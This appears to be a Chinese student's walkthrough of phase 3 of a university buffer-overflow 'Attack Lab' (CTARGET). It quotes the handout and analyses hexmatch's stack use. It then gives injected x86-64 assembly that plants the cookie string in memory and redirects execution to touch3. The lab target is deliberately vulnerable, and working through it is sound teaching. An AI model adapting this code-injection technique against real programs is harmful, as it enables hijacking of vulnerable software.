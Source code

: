 ```
        fail(3);
    }
    exit(0);
}
```

Your task is to get CTARGET to execute the code for touch3 rather than returning to test. You must make it appear to touch3 as if you have passed a string representation of your cookie as its argument.

**Some Advice:**  
- You will need to include a string representation of your cookie in your exploit string. The string should
consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.”
- Recall that a string is represented in C as a sequence of bytes followed by a byte with value 0. Type
“man ascii” on any Linux machine to see the byte representations of the characters you need.
- Your injected code should set register %rdi to the address of this string.
- When functions hexmatch and strncmp are called, they push data onto the stack, overwriting
portions of memory that held the buffer used by getbuf. As a result, you will need to be careful
where you place the string representation of your cookie.

这次返回touch3也要带一个参数，不过这次参数变成了指向cookie字符串表示形式的指针。最后一点提示说到了 **hexmatch** 和 **strncmp** 这两个函数会改变栈的内容，所以要小心选择放置cookie字符串的位置。

现在问题就是填入cookie字符串和不让字符串被破坏。

用ascii表将cookie转为字符串形式：`0x59b997fa -> 35 39 62 39 39 37 66 61`。

还是利用将代码写到栈上的方法来达到目的。这几个函数非常繁琐，就这个touch3我完全解决花了半个中午加整个晚上，gdb调试调得头晕。。。

代码太长，截取重要部分分析吧。
```
401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp //rsp - 128 = 0x5561db88
  401854:	41 89 fc             	mov    %edi,%r12d
  401857:	48 89 f5             	mov    %rsi,%rbp
  40185a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401861:	00 00 
  401863:	48 89 44 24 78       	mov    %rax,0x78(%rsp) //0x78
  401868:	31 c0                	xor    %eax,%eax
  40186a:	e8 41 f5 ff ff       	callq  400db0 <random@plt>
```

首先经过调试发现 **hexmatch** 函数开头直接上了3个 **push** 64位寄存器的指令，这三个指令push的内容会把getbuf开的缓冲区大部分占用掉，这也造成了不能把cookie直接编码到缓冲区上，因此需要使用指令来操作。

根据 **401850** 处汇编代码知道 **hexmatch** 开辟了128字节空间，可以将cookie用指令送到这128字节的低地址处，这样就能避免缓冲区被覆盖导致cookie失效。

**hexmatch** 开辟的空间最低地址为 **0x5561db88**，而缓冲区首址为 **0x5561dc78**，因此可以将cookie放在这两个地址之间，我直接放在了 **0x5561db88**处。

新建`solution3.s`如下：
```
mov $0x5561db88,%rdi //cookie字符串指针送到rdi
push %rax//后面指令用到rax，压栈保存原值
mov $0x6166373939623935,%rax//cookie送到rax
mov %rax,0x5561db88//rax送到 **0x5561db88**
xor %rax,%rax
mov %rax,0x5561db90//后面补零
pop %rax //恢复原值
ret
```
